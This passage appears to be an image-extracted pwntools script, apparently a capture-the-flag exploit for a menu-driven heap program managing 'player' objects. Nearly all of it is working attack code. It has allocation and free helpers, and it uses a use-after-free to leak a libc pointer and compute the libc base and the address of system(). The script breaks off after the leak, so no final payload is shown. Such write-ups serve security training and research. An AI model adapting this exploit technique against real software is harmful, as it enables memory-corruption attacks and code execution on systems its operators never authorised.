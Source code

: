 ```python
	p.recvuntil('name: ')
	p.sendline(name)

	p.recvuntil('choice: ')
	p.sendline('sh')

	return

def select(idx):

	p.recvuntil('choice: ')
	p.sendline('3')

	p.recvuntil('index: ')
	p.sendline(str(idx))

	return

def free(idx):

	p.recvuntil('choice: ')
	p.sendline('2')

	p.recvuntil('index: ')
	p.sendline(str(idx))

	return

def show():

	p.recvuntil('choice: ')
	p.sendline('5')

	return

def pwn():

	alloc('A'*0x60)
	alloc('B'*0x60)
	alloc('C'*0x80)
	alloc('D'*0x80)

	select(2)

	free(2)

	# The 'selected' array contains the 3rd player object
	# We are abusing the UAF vuln to leak libc
	# show_player just checks if the 'selected' array is empty
	# if it's not, it will print the value of the player's object
	# without checking if it's actually free'd or not
	show()

	p.recvuntil('Name: ')

	leak        = u64(p.recv(6).ljust(8, '\x00'))
	libc        = leak - 0x3c17b8
	system      = libc + 0x46590

	log.info("Leak:   0x{:x}".format(leak))
	log.info("Libc:   0x{:x}".format(libc))
	log.info("system: 0x{:x}".format(system))

```